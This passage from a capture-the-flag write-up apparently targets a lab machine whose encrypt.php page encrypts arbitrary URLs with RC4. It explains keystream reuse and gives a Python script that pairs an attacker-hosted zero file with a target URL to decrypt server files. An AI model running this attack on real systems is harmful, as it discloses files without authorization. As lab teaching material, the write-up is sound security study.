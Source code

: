 When executing the request from before again and replacing the token parameter with the one returned in the previous response, login succeeds and we get redirected to `/encrypt.php`. In order to explore the login area, the PHP session ID can be copied to the browser.

The `encrypt.php` page lets us encrypt files using `AES-CBC` and `RC4` by specifying `http://<host>/path/to/resource`, but we cannot decrypt files the easy way because the `decrypt.php` page tells us that it is "under construction". It is possible to encrypt files from the server itself (tested with `/css/bootstrap.min.css`) as well as from the attacker machine. This means we can choose a plaintext and let the server encrypt it for us.

Although we do not have knowledge of the key, this enables us to decrypt the files that get encrypted with RC4, because RC4 XORs the same keystream to different files in order to encrypt them. This produces the following results:

```python
enc1 = xor(keystream, plaintext1)
enc2 = xor(keystream, plaintext2)
```

The plaintext can now be recovered as follows:

```python
xor(enc1, enc2, plaintext2) = xor(keystream, plaintext1, keystream, plaintext2, plaintext2) 
                            = xor(keystream, plaintext1, keystream) 
							= plaintext1
```

Therefore, a file with a lot of zeroes was created on the attacker machine and used as `plaintext2`. The following code was used for decryption:

```python
def decrypt(p1, c1, c2):
    return ''.join(chr(ord(a) ^ ord(b) ^ ord(c)) for a, b, c in zip(p1, c1, c2))

def decode_ciphertext(c):
    return base64.b64decode(c)


def submit_query(file_url):
    url = "http://10.10.10.129/encrypt.php"
    params = { "cipher" : "RC4", "url" : file_url }
    cookies = { "PHPSESSID" : "37cctnu27jj0ol3k13kjaacgqa" }
    response = requests.get(url, params = params, cookies = cookies)
    soup = BeautifulSoup(response.content, "html.parser")
    tags = soup.select("textarea[id=output]")
    if tags and len(tags) > 0:
        return tags[0].text


def execute(url):
    p1 = open("zeroes.txt", "r").read()
    cb1 = submit_query("http://10.10.13.201:8888/zeroes.txt")
    c1 = decode_ciphertext(cb1)
    cb2 = submit_query(url)
    c2 = decode_ciphertext(cb2)
    print("p1: {}, cb1: {}, cb2: {}".format(len(p1), len(c1), len(c2)))
    print(decrypt(p1, c1, c2))
```
